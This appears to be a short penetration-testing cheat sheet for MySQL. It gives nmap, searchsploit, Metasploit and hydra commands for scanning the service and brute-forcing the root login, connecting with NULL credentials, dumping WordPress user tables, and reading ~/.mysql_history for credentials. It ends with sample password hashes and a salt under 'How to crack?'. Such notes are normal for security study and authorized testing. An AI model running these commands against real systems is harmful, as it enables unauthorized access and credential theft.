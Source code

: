 # MySQL

- Basic nmap scan.
```
nmap -Pn -sV -sC -p3306 <ip>
```

- Check for existing exploits.
```
searchsploit MySQL <version>
```

- Check MySQL version.
```
use auxiliary/scanner/mysql/mysql_version
```

- Brute-force MySQL login using MSF.
  - Focus on root as other accounts may not have sufficient privileges for our intent.
  - root password can be NULL.
```
use auxiliary/scanner/mysql/mysql_login
set USERNAME root
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
set VERBOSE false
```

- Brute-force MySQL login using hydra.
```
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt <ip> mysql
```

- Brute-forcing can result in host being blocked.
  - Need pre-existing shell access to target and a MySQL account to run `mysqladmin flush-hosts`.
  - In general, avoid brute-forcing MySQL. Can test for NULL credentials manually.
```
[ERROR] Host '<hostname>' is blocked because of many connection errors; unblock with 'mysqladmin flush-hosts'
```

- Connect to MySQL.
  - Press Enter for password if NULL.
```
mysql -u root -p -h <ip>
```

```
show databases;
use <database>;
show tables;
select * from <table>;

use wordpress;
select * from wp_users;

# Web app user info in the database.
```

```
cat ~/.mysql_history

# History file may contain credentials.
```

##
```
$P$B2PFjjNJHOQwDzqrQxfX4GYzasKQoN0
$P$BMO//62Hj1IFeIr0XuJUqMmtBllnzN/

Salt: G*=2"S^\529h#r7Y=aPP (from nmap scan)

# How to crack?
```

